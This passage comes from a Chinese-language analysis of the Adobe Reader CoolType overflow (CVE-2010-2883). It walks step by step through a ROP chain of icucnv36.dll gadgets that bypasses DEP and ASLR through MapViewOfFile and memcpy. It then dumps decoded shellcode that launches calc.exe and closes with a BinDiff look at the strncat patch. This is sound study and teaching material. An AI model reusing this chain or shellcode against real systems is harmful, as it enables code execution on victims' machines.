4A8063A5    59              pop ecx         ; esp = 0C0C0C8C, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0C90, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0C94, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0C98, ebx = 00000008
4A802AB2    C3              retn            ; esp = 0C0C0C9C, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0CA0, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; esp = 0C0C0CA4, eax = 4A849030 <&KERNEL32.MapViewOfFile>
4A801F91    C3              retn            ; esp = 0C0C0CA8, eip = 4A80B692
```

```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; kernel32.MapViewOfFile
```

调用函数 `kernel32.MapViewOfFileEx` 将文件映射到内存映射地址空间，各参数如下所示：

```text
0C0C0C8C   000003D8  |hMapObject = 000003D8
0C0C0C90   00000022  |AccessMode = 0x22
0C0C0C94   00000000  |OffsetHigh = 0x0
0C0C0C98   00000000  |OffsetLow = 0x0
0C0C0C9C   00010000  |MapSize = 10000 (65536.)
0C0C0CA0   00000000  \BaseAddr = NULL
```

最后调用函数 `memcpy` 将真正的 shellcode 复制到 `MapViewOfFile` 返回的地址处。这是一段可读可写可执行的内存，从而绕过 DEP。另外由于所使用的 gadgets 都来自 `icucnv36.dll` 模块，该模块不受 ASLR 的影响，所以同时也相当于绕过了 ASLR。

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CC8, ecx = 4A8A0004
4A8063A6    C3              retn            ; esp = 0C0C0CCC, eip = 4A802196
```

```text
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; esp = 0C0C0CD0, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CD4, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CD8, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0CDC, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0CE0, ebx = 00000030
4A802AB2    C3              retn            ; esp = 0C0C0CE4, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0CE8, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; esp = 0C0C0CEC, eax = 4A8A0004
4A801F91    C3              retn            ; esp = 0C0C0CF0, eip = 4A80A7D8
```

```text
4A80A7D8    8B00            mov eax,dword ptr ds:[eax]
4A80A7DA    C3              retn            ; esp = 0C0C0CF4, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CF8, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CFC, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0D00, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0D04, ebx = 00000020
4A802AB2    C3              retn            ; esp = 0C0C0D08, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0D0C, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0D10, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0D14, eip = 4A80AEDC
```

```text
4A80AEDC    8D5424 0C       lea edx,dword ptr ss:[esp+0xC]  ; edx = 0C0C0D20
4A80AEE0    52              push edx
4A80AEE1    50              push eax
4A80AEE2    FF7424 0C       push dword ptr ss:[esp+0xC]
4A80AEE6    FF35 3C098A4A   push dword ptr ds:[0x4A8A093C]
4A80AEEC    FFD1            call ecx        ; esp = 0C0C0D00, eip = 4A801064
4A80AEEE    83C4 10         add esp,0x10
4A80AEF1    C3              retn
```

```text
4A801064    C3              retn            ; esp = 0C0C0D04, eip = 4A80AEEE
```

```text
4A80AEEE    83C4 10         add esp,0x10
4A80AEF1    C3              retn            ; esp = 0C0C0D18, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; eax = 00000034
4A801F91    C3              retn            ; esp = 0C0C0D20, eip = 4A80D585
```

```text
4A80D585    03C2            add eax,edx     ; eax = 0C0C0D54
4A80D587    C3              retn            ; esp = 0C0C0D24, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0D2C, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0D30, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; ebx = 0000000A
4A802AB2    C3              retn            ; esp = 0C0C0D38, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0D3C, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; eax = 4A849170 <&MSVCR80.memcpy>
4A801F91    C3              retn            ; esp = 0C0C0D44, eip = 4A80B692
```

```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; msvcr80.memcpy
```

调用函数 `memcpy`，各参数如下所示：

```text
0C0C0D44   03E90000  /CALL 到 memcpy
0C0C0D48   03E90000  |dest = 03E90000
0C0C0D4C   0C0C0D54  |src = 0C0C0D54
0C0C0D50   00001000  \n = 1000 (4096.)
```

然后这段复制过去的 shellcode 会被解密，并跳到 `03E900A3` 执行：

```text
03E9000E    B1 31           mov cl,0x31
03E90010    315A 18         xor dword ptr ds:[edx+0x18],ebx
03E90013    035A 18         add ebx,dword ptr ds:[edx+0x18]
03E90016    83C2 04         add edx,0x4
03E90019  ^ E2 F5           loopd short 03E90010
03E9001B    FC              cld
03E9001C    E8 82000000     call 03E900A3
```

```text
d 03E90000:

03E90000  DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A 29 C9 B1 31  哿賢$艋侓I瀂)杀1
03E90010  31 5A 18 03 5A 18 83 C2 04 E2 F5 FC E8 82 00 00  1ZZ兟怩?.
03E90020  00 60 89 E5 31 C0 64 8B 50 30 8B 52 0C 8B 52 14  .`夊1纃婸0婻.婻
03E90030  8B 72 28 0F B7 4A 26 31 FF AC 3C 61 7C 02 2C 20  媟(稪&1?a|,
03E90040  C1 CF 0D 01 C7 E2 F2 52 57 8B 52 10 8B 4A 3C 8B  料.氢騌W婻婮<
03E90050  4C 11 78 E3 48 01 D1 51 8B 59 20 01 D3 8B 49 18  Lx鉎裃媃 計I
03E90060  E3 3A 49 8B 34 8B 01 D6 31 FF AC C1 CF 0D 01 C7  ?I????
03E90070  38 E0 75 F6 03 7D F8 3B 7D 24 75 E4 58 8B 58 24  8鄒?}?}$u鋁媂$
03E90080  01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0  觙?K媂計?
03E90090  89 44 24 24 5B 5B 61 59 5A 51 FF E0 5F 5F 5A 8B  塂$$[[aYZQ郷_Z
03E900A0  12 EB 8D 5D 6A 01 8D 85 B2 00 00 00 50 68 31 8B  雿]j崊?..Ph1
03E900B0  6F 87 FF D5 BB F0 B5 A2 56 68 A6 95 BD 9D FF D5  o?栈鸬h綕
03E900C0  3C 06 7C 0A 80 FB E0 75 05 BB 47 13 72 6F 6A 00  <|.€u籊roj.
03E900D0  53 FF D5 63 61 6C 63 2E 65 78 65 00 0C 0C 0C 0C  S誧alc.exe.....
03E900E0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
```

最后弹出计算器：

```text
03E900A3    5D              pop ebp         ; ebp = 03E90021
03E900A4    6A 01           push 0x1
03E900A6    8D85 B2000000   lea eax,dword ptr ss:[ebp+0xB2] ; eax = 03E900D3 "calc.exe"
03E900AC    50              push eax
03E900AD    68 318B6F87     push 0x876F8B31
03E900B2    FFD5            call ebp
```

### 补丁

利用 BinDiff 插件进行二进制比对，可以看到在修复漏洞时使用函数 `sub_813391E` 替换了 `strcat`：

```text
0.92 0.97 GI-JE-C 0803DD33 sub_803DD33 0803DCF9 sub_803DCF9   call reference matching    50    52    51    220    254    247    72    84    83
```



跟进函数 `sub_813391E`：

```text
.text:0813391E ; int __cdecl sub_813391E(char *Str, char *Source, int)
.text:0813391E sub_813391E     proc near               ; CODE XREF: sub_803C375+244↑p
.text:0813391E                                         ; sub_803C375+2BB↑p ...
.text:0813391E
.text:0813391E Str             = dword ptr  4
.text:0813391E Source          = dword ptr  8
.text:0813391E arg_8           = dword ptr  0Ch
.text:0813391E
.text:0813391E                 push    esi
.text:0813391F                 mov     esi, [esp+4+Str]
.text:08133923                 push    esi             ; Str
.text:08133924                 call    strlen           ; 获得 uniqueName 的长度，返回值在 eax 中
.text:08133929                 pop     ecx
.text:0813392A                 mov     ecx, [esp+4+arg_8]   ; ecx 的值是 0x104
.text:0813392E                 cmp     ecx, eax             ; 判断是否大于 0x104 个字节
.text:08133930                 ja      short loc_8133936    ; 跳转
.text:08133932                 mov     eax, esi
.text:08133934                 pop     esi
.text:08133935                 retn
.text:08133936 ; ---------------------------------------------------------------------------
.text:08133936
.text:08133936 loc_8133936:                            ; CODE XREF: sub_813391E+12↑j
.text:08133936                 sub     ecx, eax
.text:08133938                 dec     ecx
.text:08133939                 push    ecx             ; Count ; ecx = ecx - eax - 1
.text:0813393A                 push    [esp+8+Source]  ; Source
.text:0813393E                 add     eax, esi             ; 动态调整栈空间
.text:08133940                 push    eax             ; Dest
.text:08133941                 call    ds:strncat           ; strncat 复制字符串
.text:08133947                 add     esp, 0Ch
.text:0813394A                 pop     esi
.text:0813394B                 retn
.text:0813394B sub_813391E     endp
```

使用更安全的 `strncat` 替代 `strcat`，限制字符串长度为 `0x104` 字节，并且根据字符串长度动态地调整栈空间。

## 参考资料

- 《漏洞战争》
- <https://www.cvedetails.com/cve/CVE-2010-2883/>
- [PDF File Format: Basic Structure](https://resources.infosecinstitute.com/pdf-file-format-basic-structure/)
- [TrueType 1.0 Font Files](https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/minuxs/TrueType%201.0%20Font%20Files.pdf)
